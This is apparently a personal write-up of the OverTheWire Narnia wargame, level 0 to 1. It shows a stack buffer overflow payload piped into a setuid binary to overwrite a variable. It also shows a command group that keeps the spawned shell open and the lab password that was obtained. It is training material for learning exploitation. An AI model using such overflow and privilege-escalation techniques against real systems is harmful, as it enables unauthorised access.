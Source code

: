 # Krypton
These are my solutions to the [narnia ctf](https://overthewire.org/wargames/narnia/). Since these are solutions, there are obviously spoilers. Additionally, my solutions may be rather terse.

## Level 0 to Level 1
We are told to log in with the following info:

```bash
# password narnia0
ssh narnia0@narnia.labs.overthewire.org -p 2226
```

and that data can be found in `/narnia/`. Inside `/narnia/` we see a binary file named `narnia0` as well as some C source code in `narnia0.c`. One thing to notice is that `narni0` is a `setuid` binary file that will run with the permissions of the `narnia1` user (which we verify by looking at the following):

```bash
narnia0@narnia:/narnia$ ls -hartl narnia0
-r-sr-x--- 1 narnia1 narnia0 7.3K Aug 26  2019 narnia0
```

The `s` character tells us the binary executes with the permissions of the owner, who happenst to be `narnia`.

Looking at the source code, we see that there is a `char buf[20]` allocated that is used to take input from us when we execute the binary. 20 characters seems a bit much for this exercise, so it seems likely that we're supposed to try and overflow this buffer to achieve our desired goals. If we look further down into the sourcecode, we see

```c
if(val==0xdeadbeef){
    setreuid(geteuid(),geteuid());
    system("/bin/sh");
}
```

so, somehow, we need to make `val` equal to `0xdeadbeef` and then we can get access to the shell.

Additionally, the line `scanf("%24s",&buf);` limits our input to 24 characters. Another suspicious "mistake."

One thing we can notice if we mess around with various inputs of ~24 characters, is the following (I removed some extraneous output):

```bash
narnia0@narnia:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAAdead" | ./narnia0
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdead
val: 0x64616564
narnia0@narnia:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAAdeaf" | ./narnia0
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdeaf
val: 0x66616564
```

We can probably bruteforce the solution. One of the problems is that we're reallllly far off from 0xdeadbeef, too far for alphabetic characters to probably make a difference. So, we'd probably need some pretty nasty ASCII characters to get us to where we want. I did some googling and found that it is possible to input hex digits into bash by using an `\x` escape sequence. So let's try the following:

```bash
narnia0@narnia:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAA\xde\xad" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
val: 0x4100adde
```

Well... that definitely got us closer! I forgot that the memory is stacked "backwards", so what we really wanted is the following:

```bash
narnia0@narnia:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAA\xad\xde" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA��
val: 0x4100dead
WAY OFF!!!!
```

Continuing in this way, we get...

```bash
narnia0@narnia:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Woohoo! We got the value matching... although now nothing happens. The shell in the program exits before we can do anything. Luckily, we can inject a command after our echo so which will run some other code for us. We know (from doing the other overthewire challenges) that the passwords are stored in `/etc/narnia_pass/`, so let's just `cat` the `/etc/narnia_pass/narnia1` file.

```bash
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat; ) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

For some reason, I can't use the `cat /etc/narnia_pass/narnia1` command directly in the command group. If I just leave `cat` it leaves the iostream open and allows us to retain access to the shell until we close it.

password: `efeidiedae`

### Things I learned from this lesson:
- Command Groups
- Bash hex escape sequence `\x`

### Things I need to learn better from this lesson:
- Memory stuff (stack frames. [this solution](https://hackmethod.com/overthewire-narnia-0/?v=7516fd43adaa) goes into pretty good detail)

## Level 1 to Level 2